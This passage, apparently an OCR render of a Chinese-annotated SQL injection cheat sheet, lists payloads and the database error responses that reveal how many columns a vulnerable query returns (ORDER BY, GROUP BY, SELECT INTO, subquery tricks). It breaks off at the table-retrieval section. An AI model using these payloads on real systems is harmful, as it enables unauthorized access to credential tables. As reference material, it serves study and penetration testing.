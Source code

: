 	Given the query SELECT username, password, permission FROM Users WHERE id = '{INJECTION POINT}';
	
	1' ORDER BY 1--+	True
	1' ORDER BY 2--+	True
	1' ORDER BY 3--+	True
	1' ORDER BY 4--+	False - Query is only using 3 columns
	-1' UNION SELECT 1,2,3--+	True


__Error Based__

	GROUP/ORDER BY 1,2,3,4,5...

	与以前的方法类似，如果启用了错误显示，我们可以检查具有1个请求的列数。

__举例__

	Given the query SELECT username, password, permission FROM Users WHERE id = '{INJECTION POINT}'

	1' GROUP BY 1,2,3,4,5--+	Unknown column '4' in 'group statement'
	1' ORDER BY 1,2,3,4,5--+	Unknown column '4' in 'order clause'

__Error Based2__

	SELECT ... INTO var_list, var_list1, var_list2...

	如果启用了错误显示，则此方法有效
	当注入位于LIMIT字句之后，查找列数有用

__例子__

	Given the query SELECT permission FROM Users WHERE id = {INJECTION POINT};
	
	-1 UNION SELECT 1 INTO @,@,@	The used SELECT statements have a different number of columns
	-1 UNION SELECT 1 INTO @,@	The used SELECT statements have a different number of columns
	-1 UNION SELECT 1 INTO @	No error means query uses 1 column

__例子2__

	Given the query SELECT username, permission FROM Users limit 1,{INJECTION POINT};

	1 INTO @,@,@	The used SELECT statements have a different number of columns
	1 INTO @,@	No error means query uses 2 columns。没有错误则代表2列


__Error Based3__

	AND (SELECT * FROM SOME_EXISTING_TABLE) = 1

	Notes:
	
	条件是：知道了表名且启用了错误显示，则此功能可用
	它将返回表中的列数，而不是查询
	
	Example:
	Given the query SELECT permission FROM Users WHERE id = {INJECTION POINT};
	
	1 AND (SELECT * FROM Users) = 1	Operand should contain 3 column(s)

__检索表__

__Union__
